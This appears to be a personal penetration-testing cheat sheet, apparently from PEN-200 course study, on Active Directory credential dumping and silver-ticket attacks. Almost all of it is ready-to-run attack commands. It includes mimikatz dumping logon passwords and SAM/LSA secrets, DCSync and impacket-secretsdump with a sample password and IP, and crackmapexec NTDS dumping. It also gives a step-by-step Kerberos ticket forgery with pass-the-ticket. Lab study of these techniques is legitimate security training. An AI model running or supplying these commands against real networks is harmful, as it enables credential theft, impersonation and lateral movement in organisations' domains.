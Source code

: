 
### Secret Dumping 
```
#MIMIDUMP
.\mimikatz.exe "privilege::debug" "log mimikatz_passwords.txt" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::lsa /patch" "exit"

#DC SYNC
lsadump::dcsync /user:<domain>\<user>
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

#SAM / NTDS DUMP
impacket-secretsdump <user>@<ip>
crackmapexec smb <ip> -u <user> -p <password> --sam / --lsa / --ntds

#IF you are NT SYSTEM
Take a copy of SAM / SYSTEM. -> check c:\windows\system32\xxx
NEED TO ADD REG QUERY TO DO THIS HERE
```

### Silver Tickets
Is there an interesting service running such as an HTTP or SMB share that can't be accessed?
https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/silver-tickets
```
#Grab SID of your user.
whoami /user

#Open mimi
privilege::debug

#Grab NTLM hash of service account
sekurlsa::logonpasswords

#Generate ticket
kerberos::golden /sid:<id> /domain:<domin> /ptt /target:<ip/dnsname> /service:<protocol eg. http /smb> /rc4:<ntlm_of_service> /user:<our_adminuser>

#Check ticket
klist

#Access service
example: iwr -UseDefaultCredentials http://<target>
```

